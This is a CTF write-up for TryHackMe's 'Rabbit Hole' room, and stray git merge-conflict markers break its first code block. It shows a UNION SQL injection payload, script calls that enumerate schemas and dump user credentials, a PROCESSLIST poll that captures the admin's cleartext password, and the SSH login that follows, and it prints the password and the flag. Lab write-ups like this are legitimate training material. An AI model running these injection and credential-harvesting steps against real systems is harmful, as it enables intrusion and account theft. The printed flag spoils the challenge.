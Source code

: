 # TryHackMe: Rabbit Hole Walkthrough — Full Exploit & Capture-the-Flag Guide

## 🔍 Challenge Overview

**Platform:** TryHackMe
**Room Name:** Rabbit Hole
**Category:** Web Exploitation, SQL Injection, Enumeration, Processlist Abuse
**Difficulty:** Intermediate

**Keywords for SEO:** tryhackme rabbit hole writeup, second-order sqli, processlist mysql exploit, ssh login sql injection, sql injection challenge solution, CTF walkthrough rabbit hole, information\_schema processlist attack, MySQL md5 password capture, ethical hacking SQLi lab

> This is a complete, step-by-step professional walkthrough to solve the "Rabbit Hole" room on TryHackMe. It includes command-line tools, Python automation scripts, payloads, and final shell access to capture the flag.

---

## 🛠 Step 1: Initial Reconnaissance

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.173.12
<<<<<<< HEAD




=======
```

**Discovered Open Ports:**

```
22/tcp (SSH)
80/tcp (HTTP)
```

Visit:

```
http://10.10.173.12
```

Identified login/register form and "Last Logins" feature reflecting usernames (possible injection point).

---

## 🧪 Step 2: SQL Injection Detection

Test Payload:

```sql
' UNION SELECT 1;--
```

**Error Response:** Column mismatch confirms SQL injection is possible.

Working Payload:

```sql
' UNION SELECT 1,2;--
```

This confirms 2 columns are expected.

---

## 🧬 Step 3: Extract Database Names

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(schema_name) FROM information_schema.schemata'
```

**Result:**

```
information_schema,web
```

---

## 🗂 Step 4: Extract Table Names from `web`

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema="web"'
```

**Tables Found:**

```
users,logins
```

---

## 🧱 Step 5: Extract Columns from `users`

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema="web" AND table_name="users"'
```

**Columns:**

```
id,username,password,group
```

---

## 🔐 Step 6: Dump User Data

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(id,":",username,":",password,":",`group` SEPARATOR "\n") FROM web.users WHERE id<4'
```

**Dumped:**

```
1:admin:0e3ab8...:admin
2:foo:abc123:user
3:bar:iloveyou:user
```

---

## 👁️ Step 7: Monitor `PROCESSLIST` for Admin Password

Repeatedly run:

```bash
python3 processlist_extractor.py 'http://10.10.173.12/' 'SELECT INFO_BINARY FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1'
```

**Target Output Example:**

```sql
SELECT * FROM users WHERE username='admin' AND password=md5('fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q')
```

Extract the cleartext password inside the `md5()` function.

---

## 💻 Step 8: SSH Login as Admin

```bash
ssh admin@10.10.173.12
```

**Password:**

```
fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q
```

---

## 🏁 Step 9: Capture the Flag

```bash
ls
cat flag.txt
```

**Flag:**

```
THM{this_is_the_way_step_inside_jNu8uJ9tvKfH1n48}
```

---

## 🧰 Tools & Techniques Used

* `nmap`, `curl`, `Burp Suite`
* Manual SQL injection testing
* `information_schema` enumeration
* MySQL `PROCESSLIST` query leakage
* Python scripting (`requests`, `bs4`)

---

## 📁 Included Scripts

### `sqli_automate2.py`

Automates 16-character chunked SQL data extraction using SUBSTR.

### `processlist_extractor.py`

Multi-threaded script to capture live SQL queries from MySQL `information_schema.processlist`.

---

## ✍️ Writeup by: Mohsin Arif

**GitHub:** [https://github.com/mhsn1](https://github.com/mhsn1)
**TryHackMe:** [https://tryhackme.com/p/mhsn1](https://tryhackme.com/p/mhsn1)

**Keywords:** tryhackme rabbit hole writeup, mysql processlist exploit, second-order sql injection, ethical hacking walkthrough, capture the flag sql injection, offensive enumeration tutorial
>>>>>>> 001d327 (Final polished Rabbit Hole writeup)
